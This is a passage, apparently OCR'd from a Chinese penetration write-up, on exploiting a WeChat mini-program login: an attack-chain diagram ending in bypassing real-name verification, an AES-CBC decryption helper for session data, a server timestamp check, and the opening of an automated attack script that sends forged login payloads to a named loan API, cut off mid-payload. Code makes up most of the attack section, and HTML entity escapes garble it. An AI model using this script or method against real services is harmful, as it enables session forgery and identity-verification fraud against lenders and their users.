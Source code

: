   
  
### （二）攻击链路推演  

```
graph TD
    A[获取jsCode] --> B[构造虚假登录请求]
    B --> C{后端响应}
    C -->|包含session_key| D[解密encryptedData]
    D --> E[伪造完整会话]
    E --> F[绕过实名认证]

```

## 三、漏洞利用实战  
### （一）密钥重组  
1. **AES-CBC参数准备**  

```
from Crypto.Cipher import AES
import base64

def decrypt(session_key, iv, encrypted_data):
    cipher = AES.new(session_key, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(base64.b64decode(encrypted_data))
    return decrypted.decode('utf-8')

```

  
  
1. **时间戳同步突破**  
  
发现服务端时间校验逻辑：  

```
// 后端时间校验代码片段
long clientTime = request.getHeader(&#34;X-Timestamp&#34;);
if (Math.abs(clientTime - System.currentTimeMillis()) > 300000) {
    throw new InvalidTimestampException();
}

```

  
  
### （二）自动化攻击脚本  

```
import requests
import time

TARGET_URL = &#34;https://api.wechat-loan.com/login&#34;
HEADERS = {
    &#34;User-Agent&#34;: &#34;Mozilla/5.0 (iPhone; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.36&#34;,
    &#34;X-Requested-With&#34;: &#34;XMLHttpRequest&#34;
}

def exploit():
    # 获取当前时间戳（毫秒）
    timestamp = int(time.time() * 1000)
    
    # 构造恶意请求
    payload = {
        &#34;jsCode&#34;: &#34;023f4a5b6c8d9e0f1a2b3c4d5e6f7a8b9c&#34;,
        &#34;encryptedData&#34;: &#34;CvYyQ2...&#34;,
        &#34;iv&#34;: &#34;XyZwVu...&#34;,
```